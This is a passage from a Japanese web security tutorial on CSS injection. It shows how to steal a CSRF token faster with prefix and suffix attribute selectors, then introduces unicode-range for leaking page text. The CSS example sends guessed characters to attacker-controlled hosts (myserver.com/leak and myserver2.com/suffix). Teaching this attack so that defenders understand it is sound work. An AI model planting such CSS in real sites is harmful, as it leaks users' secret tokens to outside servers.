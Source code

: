 現実世界でこの種の攻撃を実行したい場合、効率をさらに向上させる必要があるかもしれません。HackMDを例にとると、CSRFトークンは36文字で構成されているため、36回のリクエストを送信する必要があります。これはかなり多いです。

実際、前編でプレフィックスセレクター以外にサフィックスセレクターもあると述べたように、一度に2文字を盗むことができます。したがって、次のようにすることができます。

```css
input[name="secret"][value^="a"] {
  background: url(https://b.myserver.com/leak?q=a)
}

input[name="secret"][value^="b"] {
  background: url(https://b.myserver.com/leak?q=b)
}

// ...
input[name="secret"][value$="a"] {
  border-background: url(https://b.myserver2.com/suffix?q=a)
}

input[name="secret"][value$="b"] {
  border-background: url(https://b.myserver2.com/suffix?q=b)
}
```

プレフィックスを盗むことに加えて、サフィックスも盗むことができ、効率が2倍になります。プレフィックスとサフィックスのCSSは異なるプロパティを使用していることに注意することが重要です。1つは `background` を使用し、もう1つは `border-background` を使用しています。これは、同じプロパティを使用すると、コンテンツが他のものによって上書きされ、最終的に1つのリクエストしか送信されないためです。

コンテンツに含まれる可能性のある文字数が少ない場合、例えば16文字の場合、一度に2つのプレフィックスと2つのサフィックスを直接盗むことができます。CSSルールの合計数は `16*16*2` = 512となり、これは許容範囲内であり、プロセスをさらに2倍高速化します。

これらの方法に加えて、サーバー側でも改善できます。例えば、HTTP/2またはHTTP/3を使用すると、リクエストの読み込み速度を高速化し、効率を向上させることができます。

## 他のものを盗む

属性を盗む以外に、他のものを盗む方法はありますか？例えば、ページ上の他のテキストやスクリプト内のコードなどです。

前編で説明した原理に基づくと、それは不可能です。「属性セレクター」というものがあるため、属性を盗むことができます。これにより、特定の要素を選択できます。しかし、CSSには「コンテンツ」自体を選択できるセレクターはありません。

したがって、この一見不可能なタスクを達成するには、CSSとウェブページ上のスタイルについてより深く理解する必要があります。

### unicode-range

CSSには、「unicode-range」というプロパティがあり、異なる文字に対して異なるフォントを読み込むことができます。以下は[MDN](https://developer.mozilla.org/en-US/docs/Web/CSS/@font-face/unicode-range)から取得した例です。

```html
<!DOCTYPE html>
<html>
  <body>
    <style>
      @font-face {
        font-family: "Ampersand";
        src: local("Times New Roman");
        unicode-range: U+26;
      }

      div {
        font-size: 4em;
        font-family: Ampersand, Helvetica, sans-serif;
      }
    </style>
    <div>Me & You = Us</div>
  </body>
</html>
```
